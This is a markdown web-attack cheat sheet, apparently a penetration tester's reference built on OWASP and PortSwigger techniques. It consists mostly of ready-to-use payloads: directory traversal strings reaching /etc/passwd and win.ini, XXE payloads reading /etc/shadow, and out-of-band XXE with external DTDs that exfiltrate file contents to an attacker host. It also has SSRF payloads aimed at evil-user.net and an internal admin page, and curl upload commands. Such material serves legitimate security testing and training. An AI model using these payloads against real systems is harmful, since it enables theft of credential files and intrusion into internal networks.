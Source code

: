 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Web Cheat Sheet
## Tags
    #@WEB  #@TODO

## Common OWASP & Portswigger Techniques

### Directory Traversal

  https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
  ....//
  ....\/
  ..\..\
  ..%c0%af
  ..%252f
  filename=/var/www/images/../../../etc/passwd
  filename=../../../etc/passwd%00.png 

### XML External Entity (XXE)

Example 1:
```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/shadow"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

#### Vanilla, use with Burp Collaborator to verify blind or OOB
```
<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT r ANY >
  <!ENTITY sp SYSTEM "http://fsocie.ty:443/test.txt">
]>
<r>&sp;</r>
```

#### OOB Extraction
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://fsocie.ty:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```
External DTD:
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://fsocie.ty:443/?%data;'>">
```

#### OOB Variation for .NET
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://fsocie.ty:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```
External DTD:
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://fsocie.ty:443/?%data;'>">
```

## Upload Files

curl
```
curl -u <username:password> -T file_to_upload <Target_URL>
curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" <Target_URL>
```

put.pl
```
put.pl -h target -r /remote_file_name -f local_file_name
```

## SSRF

/product/nextProduct?currentProductId=6&path=http://evil-user.net --> http://evil-user.net:
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
